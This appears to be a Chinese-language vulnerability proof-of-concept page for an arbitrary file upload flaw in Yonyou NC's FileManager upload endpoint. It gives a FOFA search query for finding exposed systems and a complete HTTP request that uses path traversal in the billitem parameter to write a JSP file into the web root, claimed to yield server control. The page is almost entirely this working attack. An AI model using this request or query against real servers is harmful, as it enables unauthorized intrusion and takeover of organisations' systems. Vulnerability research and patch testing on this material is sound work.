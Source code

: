 # 用友NC系统FileManager接口存在任意文件上传漏洞

NC系统可利用/portal/pt/file/upload 接口中的 filename 参数及 billitem 参数实现任意文件上传，从而控制服务器

## fofa

```yaml
app="用友-UFIDA-NC"
```

## poc

```java
POST /portal/pt/file/upload?pageId=login&filemanager=nc.uap.lfw.file.FileManager&iscover=true&billitem=..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cwebapps%5Cnc_web%5C HTTP/1.1
Host:
Content-Type: multipart/form-data;boundary=d0b7a0d40eed0e32904c8017b09eb305

--d0b7a0d40eed0e32904c8017b09eb305
Content-Disposition: form-data; name="file"; filename="we.jsp" 
Content-Type: text/plain

<%out.print("hello world");%>
--d0b7a0d40eed0e32904c8017b09eb305--
```

